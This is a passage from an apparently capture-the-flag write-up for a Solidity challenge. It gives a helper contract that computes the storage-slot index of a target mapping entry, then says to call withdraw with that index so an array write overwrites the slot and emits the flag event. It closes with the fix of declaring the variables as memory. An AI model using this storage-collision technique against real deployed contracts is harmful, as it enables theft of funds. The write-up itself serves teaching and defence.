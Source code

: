 ![](https://moe.photo/images/2023/06/23/image-20230623193133860.png)

5.calculate the idx: I use this EOA: 0xa8008e8a697d416EFDC227169ABE86fd579E197e in Ganache

- target(0xa8008e8a697d416EFDC227169ABE86fd579E197e) = 0x87514589ce108cb2546817ef911709e5cba72d30b256cec09501ab6641ed19aa
- base = 0x405787fa12a823e0f2b7631cc41b3ba8828b3321ca811111fa75cd3aa3bb5ace
- ZeroIsPerfect(0xa8008e8a697d416EFDC227169ABE86fd579E197e) = 0
- idx(0xa8008e8a697d416EFDC227169ABE86fd579E197e) = 16051576312513365899836508591052638300203044566877098313835095392794399268719

```solidity
contract cal{
    function target(address _addr)public pure returns(bytes32){
        return keccak256(keccak256(abi.encodePacked(bytes32(_addr),bytes32(3))));
    }
    function base() public pure returns(bytes32){
        return keccak256(bytes32(2));
    }
    function idx(address _addr) public pure returns(uint256 idx){
        return (uint256(target(_addr)) + 2 - uint256(base())) / 2;
    }
    function ZeroIsPerfect(address _addr) public pure returns(uint256){
        return (uint256(target(_addr)) + 2 - uint256(base())) % 2;
    }
}
```

And the safeboxes' length is greater than idx

6.Call `withdraw(idx, any)`, and the `SendFlag` event will be emitted.

![](https://moe.photo/images/2023/06/23/image-20230623192919503.png)

the EVM
![](https://moe.photo/images/2023/06/23/ffff.png)

## repair

To fix the bugs in the game contract, the data location of `info` and `box` should be explicitly declared as `memory`. Starting from Solidity v5.0.0, explicit data location for all variables of the struct, array or mapping types is mandatory ([Ref](https://solidity.readthedocs.io/en/v0.5.0/050-breaking-changes.html#explicitness-requirements)).





